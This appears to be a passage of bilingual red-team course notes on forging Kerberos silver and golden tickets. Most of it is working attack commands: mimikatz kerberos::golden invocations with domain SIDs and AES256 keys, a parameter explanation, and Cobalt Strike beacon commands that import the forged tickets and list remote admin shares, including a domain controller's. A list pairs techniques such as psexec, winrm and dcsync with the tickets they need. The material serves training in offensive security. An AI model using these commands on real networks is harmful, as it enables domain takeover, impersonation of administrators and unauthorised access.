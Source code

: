 mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv-2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
```

参数解释
- /user is the username to impersonate.
- /domain is the current domain name.
- /sid is the current domain SID.
- /target is the target machine.
- /aes256 is the AES256 key for the target machine.
- /ticket is the filename to save the ticket as.

导入银票到当前session
```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\srv2-cifs.kirbi
beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin

...
```


下面是一些访问技术与票据的组合
1. psexec				CIFS
2. winrm				HOST & HTTP
3. dcsync (DCs only)	LDAP


# Golden Tickets

金票可以访问任何机器的任何服务

需要```krbtgt```的NTLM/AES信息

制作金票
```
mimikatz # kerberos::golden /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-3263068140-2042698922-2891547269 /aes256:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /ticket:golden.kirbi
```

导入金票到当前session
```
beacon> make_token DEV\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\golden.kirbi
beacon> ls \\dc-2\c$
